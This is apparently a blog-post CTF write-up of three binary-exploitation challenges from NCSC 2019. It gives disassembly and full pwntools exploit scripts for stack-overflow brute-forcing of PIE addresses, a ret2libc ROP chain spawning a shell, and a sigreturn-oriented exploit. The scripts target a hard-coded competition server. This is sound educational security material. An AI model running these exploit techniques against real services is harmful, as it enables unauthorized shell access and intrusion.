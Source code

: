 ```yaml
---
layout: post
title:  "NCSC 2019 - pwn"
author: "Rettila"
tags: NCSC pwn srop stack overflow
---
```


Hi, this post will cover some binary exploitation tasks that we solved during the first edition of the National Cyber Security Congress organized by Securinets.

## Bruter
The binary was PIE enabled as we can see by running `checksec ./bruter`
{% highlight console %}
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
{% endhighlight %}
This protection (PIE) combined to ASLR results in full randomization (or not) of the program's address space.

The first bug is a call to fork function: after a fork, both parent and child will have the same address layout.

The second bug is a call to read in `handle_child` function: the program reads 0x400 bytes of user input but saved rbp is only 0x10 bytes away from our our buffer start.
{% highlight console %}
|           0x00000e5a      ba00040000     mov edx, 0x400
|           0x00000e5f      4889ce         mov rsi, rcx
|           0x00000e62      89c7           mov edi, eax
|           0x00000e64      e817fdffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
|           0x00000e69      90             nop
|           0x00000e6a      c9             leave
\           0x00000e6b      c3             ret
{% endhighlight %}
So, if we are able to overflow the buffer and overwrite rbp and the return address then we have control over rip and the execution flow.

Our goal is to execute `get_shell`
{% highlight console %}
/ (fcn) sym.get_shell 31
|   sym.get_shell ();
|           0x00000da0      55             push rbp
|           0x00000da1      4889e5         mov rbp, rsp
|           0x00000da4      488d3d0d0400.  lea rdi, str.Solved         ; 0x11b8 ; "Solved!!!"
|           0x00000dab      e850fdffff     call sym.imp.puts           ; int puts(const char *s)
|           0x00000db0      488d3d0b0400.  lea rdi, str.bin_bash_2__4_1__4___4 ; 0x11c2 ; "/bin/bash 2>&4 1>&4 <&4"
|           0x00000db7      e864fdffff     call sym.imp.system         ; int system(const char *string)
|           0x00000dbc      90             nop
|           0x00000dbd      5d             pop rbp
\           0x00000dbe      c3             ret
{% endhighlight %}
In order to do so, we need to find a valid rbp and the code base defined by the PIE protection. As stated before, the address space is the same at each connexion.

The solution consists in guessing the two parametres (rbp and rip) one byte at once starting from the first rbp byte:

- if the guessed byte value is correct, the program execution will go on and we will receive `Bye` as an answer and we can move to the next byte.

- if not, then we have no output return because the program crashed or jumped to another code location, we can conclude that the guessed byte value was wrong.

Once we have rip, we can calculate the code base and then jump to `get_shell` function.

{% highlight python %}
from pwn import *

server = '51.254.114.246'
port = 9998

i = 16
p = "A"*i
rbp = ''
while len(rbp)<8:
    for j in range(256):
        r = remote(server,port)
        r.send(p+rbp+chr(j))
        out = r.recvall()
        print 'trying rbp: ',rbp+chr(j)
        if "Bye" in out:
            rbp += chr(j)
            r.close()
            break
        r.close()
print "Leaked rbp: ",rbp.encode('hex')


s1 = p+rbp
rip = ''
while len(rip)<8:
    for j in range(256):
        r = remote(server,port)
        r.send(s1+rip+chr(j))
        out = r.recvall(timeout = 1)
        print 'trying rip: ',rip+chr(j)
        print out
        if "Bye" in out:
            rip += chr(j)
            r.close()
            break
        r.close()

print "rbp",rbp.encode('hex') 
print "rip",rip.encode('hex')

for i in range(0xf):
	r = remote(server,port)
	r.recv()
	get_shell = p64( (u64(rip) & 0xfffffffffffff0000) + (i <<12) + 0xda0)
	payload = s1 + get_shell
	r.sendline(payload)
	try:
		r.sendline('ls')
		print r.recv()
		r.interactive()
	except:
		pass
	r.close()
{% endhighlight %}

## ropper
A classic buffer overflow, we have control over rip after 168 bytes in the vuln function.
ASLR is enabled on the server.
{% highlight console %}
rett@RETTILA:~/ctf/ncsc/pwn$ checksec ropper
[*] '/home/rett/ctf/ncsc/pwn/ropper'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
{% endhighlight %}

We have got some unusual gadgets from the `help_gadgets` function to help us setting our arguments
{% highlight console %}
/ (fcn) sym.help_gadgets 8
|   sym.help_gadgets ();
|           0x00401192      55             push rbp
|           0x00401193      4889e5         mov rbp, rsp
|           0x00401196      5f             pop rdi
|           0x00401197      5e             pop rsi
|           0x00401198      5a             pop rdx
\           0x00401199      c3             ret
{% endhighlight %}
To find out the libc version and base, we started by leaking two adresses of libc using the following payload

stage1 : `padding + pop rdi , rsi and rdx + 0x1 + write from the GOT table + 0x8 +  vuln address`

stage2 :`padding + pop rdi , rsi and rdx + 0x1 + printf from the GOT table + 0x8`

which results in the execution of the following functions:

`write(1,write_got,8) --> call to vuln function again` and then `write(1,printf_got,8)`

By checking [libc database search][libc_id_link] , we can easily determine libc version and the the system function and `/bin/sh` string offsets from the libc.

Second execution payload will contain:

stage1 : `padding + pop rdi , rsi and rdx + 0x1 + write from the got table + 0x8 +  vuln address`

stage2 :`padding + pop rdi , rsi and rdx ( too lazy to look for pop rdi ) + calculated '/bin/sh' string address + calculated system address`

Too lazy to clean the code, so i put both of the steps in one script

{% highlight python %}
from pwn import *

pop_rdi_rsi_rdx = 0x00401196
vuln = 0x00401259
write_plt = 0x00401040 
write_got = 0x0404020
printf_got = 0x404030

r = remote('51.254.114.246', 3333)
r.recv()

p = 'A'*168
p += p64(pop_rdi_rsi_rdx)
p += p64(1)
p += p64(write_got)
p += p64(8)
p += p64(write_plt)
p += p64(vuln)
r.send(p)
out = r.recvuntil('Gi')
out = out[:len(out)-2]
leak_write = u64(out[len(out)- 8:])

print hex(leak_write)
print out

r.recv()

p = 'A'*168
p += p64(pop_rdi_rsi_rdx)
p += p64(1)
p += p64(printf_got)
p += p64(8)
p += p64(write_plt)
p += p64(vuln)
r.send(p)
out = r.recvuntil('Gi')
out = out[:len(out)-2]
leak_printf = u64(out[len(out)- 8:])

print hex(leak_printf)

base = leak_printf - 0x055800
system = base + 0x045390
binsh = base + 0x18cd57

p = 'A'*168
p += p64(pop_rdi_rsi_rdx)
p += p64(binsh)
p += p64(0)
p += p64(0)
p += p64(system)
r.send(p)
out = r.recvuntil('Gi')
out = out[:len(out)-2]
leak_printf = u64(out[len(out)- 8:])

print hex(leak_printf)

r.interactive()
r.close()
{% endhighlight %}

## signal
A binary containing very few code that reads user input to the top of the stack and calls for sigreturn (rax set to 0xf).

{% highlight python %}
/ (fcn) entry0 23
|   entry0 ();
|           0x00401000      31c0           xor eax, eax                ; [08] m-r-x section size 36 named LOAD1
|           0x00401002      31ff           xor edi, edi
|           0x00401004      31d2           xor edx, edx
|           0x00401006      b604           mov dh, 4
|           0x00401008      4889e6         mov rsi, rsp
|           0x0040100b      0f05           syscall
|           0x0040100d      31ff           xor edi, edi
|           0x0040100f      6a0f           push 0xf                    ; rax
|           0x00401011      58             pop rax
|           0x00401012      0f05           syscall
|           0x00401014      cd03           int 3
            ;-- rip:
\           0x00401016      c3             ret
{% endhighlight %}

All we need to do is to read the flag at address 0x00402000
{% highlight console %}
0x00402000 36 str.Securinets_Flag_is_in_remote_server
{% endhighlight %}

The supplied input is our constructed sigreturn frame containing a call to write(1, flag address, 50)

{% highlight python %}
from pwn import *

context.clear(arch="amd64")

#~ r = remote('51.254.114.246',2222)
r = process('./pwn_c')

frame = SigreturnFrame(kernel="amd64") 
frame.rax = 1 
frame.rdi = 1 
frame.rsi = 0x00402000 
frame.rdx = 50 
frame.rsp = 0x41414141
frame.rip = 0x00401012 
payload = str(frame)
r.send(payload)
print r.recvall(timeout=1)
{% endhighlight %}

[libc_id_link]:https://libc.blukat.me/
